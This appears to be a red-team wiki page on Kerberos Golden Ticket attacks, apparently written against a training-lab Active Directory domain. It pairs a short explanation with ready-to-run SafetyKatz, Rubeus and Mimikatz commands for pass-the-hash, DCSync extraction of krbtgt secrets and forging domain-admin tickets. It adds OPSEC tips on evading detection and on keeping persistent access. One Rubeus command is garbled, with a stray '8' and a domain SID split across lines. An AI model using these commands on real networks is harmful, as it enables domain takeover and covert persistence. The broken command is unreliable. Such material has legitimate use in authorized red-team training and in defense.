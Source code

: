 # Golden Ticket

Golden Tickets are **forged Kerberos Ticket Granting Tickets (TGTs)** created using the NTLM hash or AES keys of the `krbtgt` account—an account responsible for signing all TGTs in an Active Directory (AD) domain. With this secret, attackers can generate valid TGTs for any user, including Domain Admins, effectively enabling **full domain impersonation**. Unlike Silver Tickets, which target service tickets, Golden Tickets provide domain-wide access and persistence.

This technique does not require domain membership, elevated privileges on the local host, or ongoing access to the domain controller (DC) after the `krbtgt` secret has been obtained. Since the `krbtgt` account password rarely changes, Golden Tickets remain a reliable and stealthy post-exploitation method even after Domain Admin credentials rotate.

<figure><img src="../../../.gitbook/assets/golden_tickets.png" alt=""><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

### OPSEC and Persistence

Golden Tickets are essentially a Kerberos-based Overpass-the-Hash. Forged TGTs are accepted by the Key Distribution Center (KDC) as valid because they're signed with the `krbtgt` secret. The only requirement is network access to the Kerberos port (88) on the DC. The attack can be performed from non-domain-joined machines.

Although DA credentials grant full access, they must follow the domain password policy and are likely to change. In contrast, the `krbtgt` account password is static by default, making Golden Tickets an ideal long-term persistence method.

Golden Ticket attacks provide red teamers with stealthy, persistent access at the domain level. They bypass typical credential hygiene defenses, work from non-domain assets, and can survive across password resets—unless the `krbtgt` password is rotated. For long-term access and minimal detection, prefer **AES keys over NTLM** and **use DCSync** to reduce footprint on DCs.

## Tools

{% tabs %}
{% tab title="krbtgt creds" %}
Create a session in the context of the compromised DA with [SafetyKatz](../ad-tools/safetykatz.md) or [Rubeus](../ad-tools/rubeus.md):

{% code overflow="wrap" %}
```powershell
# Overpass-the-Hash with SafetyKatz
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"

# Overpass-the-Hash with Rubeus
.\Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

Next, there are two common ways to extract `krbtgt` credentials:

{% hint style="warning" %}
**OPSEC**: The DCSync method is preferred as it extracts both the AES256 key and NT hash and it does not touch the DC. The local dump method extracts just the NTLM hash and executes code on the DC.
{% endhint %}

```powershell
# DCSync (preferred, no code execution on the DC)
.\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt"

# Local dump on a DC (requires code execution)
.\SafetyKatz.exe '"lsadump::lsa /patch"'
```
{% endtab %}

{% tab title="GT Attack" %}
Previous tickets can be purged before executing the GT attack:

```powershell
# Delete any existing Kerberos tickets
.\mimikatz.exe "kerberos::purge" "exit"
```

[Rubeus](../ad-tools/rubeus.md) can be used to generate the GT-forging command from a non-elevated shell. The below command makes three queries to the DC to retrieve the following information:

1. Flags for the specified user
2. `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
3. `/netbios` of the current domain

{% hint style="warning" %}
**OPSEC**:&#x20;

* Target an active DA account and not just the default account; the latter may be dormant or act as a honeypot.
* Key parameters (SID, groups, UAC flags, etc.) can be pulled dynamically or specified manually for better stealth.
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Generate the ticket-forging command
.\Rubeus.exe golden /aes256:<aes256-key> /sid:<domain-SID> /ldap /user:Administrator /printcmd
```
{% endcode %}

Generate the Golden Ticket impersonating the target user:

{% code overflow="wrap" %}
```powershell
# GT attack with Rubeus
C:\AD\Tools\Rubeus.exe golden
/aes256:<aes256key>
8 /user:Administrator /id:500 /pgid:513
/domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-
3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1
/logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD
/ptt

# GT attack with Mimikatz
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain-SID> /krbtgt:<NThash> /ptt" "misc::cmd" "exit"
```
{% endcode %}
{% endtab %}
{% endtabs %}
